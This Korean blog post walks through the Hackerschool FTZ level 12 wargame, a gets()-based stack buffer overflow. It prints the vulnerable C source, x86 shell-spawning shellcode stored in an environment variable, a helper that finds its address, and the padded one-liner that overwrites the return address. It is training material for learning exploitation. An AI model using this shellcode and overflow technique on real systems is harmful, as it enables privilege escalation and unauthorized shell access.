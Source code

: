 ```yaml
---
date: '2022-10-02'
before : '2022-10-01'
after : '2022-10-03'
title: '시스템 해킹(10) : 해커스쿨 FTZ 레벨 12'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기 전에__

이것 또한 기본 BOF문제라고 할 수 있겠다. 11번과 다른 점은 gets를 사용한다는 점이다.

### 1. __Level 12__

접속하면 AttackMe 실행파일이 존재한다. 소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

레벨 11과 다를 것 없는 구조다. 다른 점은 gets(str)을 이용해 입력을 받는다는 사실.
gets()는 정말 위험한 함수니 내가 프로그래밍 할땐 절대 사용하지 않도록 해야겠다...


**<환경변수 등록>**

쉘코드는 4바이트짜리 return 에 들어가기는 너무 길다. 따라서 우린 "환경 변수"" 라는 친구를 만들어서 그 친구의 주소를 파악한 다음, 그 주소를 return 주소로 넘기도록 하겠다.
```
export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 
//환경변수 등록
```
쉘코드는 인터넷에서 카피해오는게 제일 빠르다..
```
int main(){ //get.c
        printf("%p\n", getenv("SHELLCODE"));
        return 0;
}
//쉘코드의 위치를 알려줄 함수 작성
```
c파일을 gcc로 컴파일 했으면 실행해보자. 다음과 같은(유사한) 결과를 얻을 것이다.
```
./get => 0xbffffc8d
```
이제 이 주소를 little endian x90형식으로 변환시키면 된다. 이 경우에는 **\x8d\xfc\xff\xbf** 가 될 것이다. 그럼 이제 이 값을 return주소에 넣어주면 된다.


**<버티컬바 "|" 실행>**

버티컬바 하나는 앞의 명령어 실행 결과를 뒤의 명령어의 입력으로(!) 넘긴다.
물론 먼저 attackme를 실행한 후 268개의 문자를 일일히 타자로 쳐도 되겠지만(...) 너무 귀찮은 작업이니 python -c를 사용하기 위해  cat으로 문장을 입력받은 다음 버티컬 바를 이용해서 이를 매개변수로 넘겨주도록 하자.
```
"\x90"*268+"\x8d\xfc\xff\xbf
 (python -c 'print"\x90"*268+"\x8d\xfc\xff\xbf"'; cat) | ./attackme
```
비밀번호 : have no clue

---
## Source

- 해커스쿨 FTZ
- Me!


